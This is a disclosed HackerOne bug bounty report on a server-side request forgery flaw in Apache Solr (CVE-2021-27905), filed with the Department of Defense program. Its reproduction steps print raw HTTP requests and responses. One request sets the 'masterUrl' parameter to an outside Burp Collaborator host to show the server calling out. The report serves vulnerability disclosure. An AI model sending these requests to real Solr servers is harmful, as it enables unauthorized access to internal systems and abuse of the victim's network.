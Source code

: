 #  SSRF due to  CVE-2021-27905 in www.████████

## Report Details
- **Report ID**: 1183472
- **URL**: https://hackerone.com/reports/1183472
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-05-04T05:28:36.707Z
- **Disclosed**: 2022-04-29T14:00:32.773Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Apache Solr is vulnerable to SSRF using the parameter "masterUrl". This issue is registered as [CVE-2021-27905](https://nvd.nist.gov/vuln/detail/CVE-2021-27905).

## Impact

A successful SSRF attack can often result in unauthorized actions or access to data within the organization, either in the vulnerable application itself or on other back-end systems that the application can communicate with. In some situations, the SSRF vulnerability might allow an attacker to perform [arbitrary command execution](https://portswigger.net/web-security/os-command-injection).

An SSRF exploit that causes connections to external third-party systems might result in malicious onward attacks that appear to originate from the organization hosting the vulnerable application, leading to potential legal liabilities and reputational damage.

 
### Supporting Material/References

https://portswigger.net/web-security/ssrf
https://www.anquanke.com/post/id/238201

## System Host(s)
www.██████████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-27905

## Steps to Reproduce
## Steps To Reproduce

First wee need to send this GET request
```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: www.███
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Accept-Language: en
Connection: close
Accept-Encoding: gzip

```
Response
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 1002
Cache-Control: max-age=2592000
Content-Type: text/plain;charset=UTF-8
Date: Tue, 04 May 2021 05:13:17 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: ARR/2.5
X-Powered-By: ASP.NET

████
```
Now we can do a HTTP request to the target we want to test it on. I'll be using Burp Collaborator, to test it yourself, please replace the value accordingly.

Request 
```
GET █████████masterUrl=http://6pwo0p85qh07drdgdlr9nr9hn8tyhn.burpcollaborator.net HTTP/1.1
Host: www.███
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Accept-Language: en
Connection: close
Accept-Encoding: gzip

``` 

Response
```
HTTP/1.1 200 OK
Connection: close
Content-Length: 174
Cache-Control: no-cache, no-store
Content-Type: text/xml;charset=UTF-8
Date: Tue, 04 May 2021 05:13:19 GMT
Etag: "17935cb837f"
Expires: Sat, 01 Jan 2000 01:00:00 GMT
Last-Modified: Tue, 04 May 2021 05:13:20 GMT
Pragma: no-cache
Server: Microsoft-IIS/7.5
Set-Cookie: ARRAffinity=450f2c90c5749e5ead79f5f3389d0369674c71e046ba20f5151e80e68da4c908;Path=/;Domain=www.██████
X-Powered-By: ARR/2.5
X-Powered-By: ASP.NET

<?xml version="1.0" encoding="UTF-8"?>
<response>
<lst name="responseHeader"><int name="status">0</int><int name="QTime">0</int></lst><str name="status">OK</str>
</response>

```
And in Burp's collaborator we receive a HTTP request from the server:
█████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
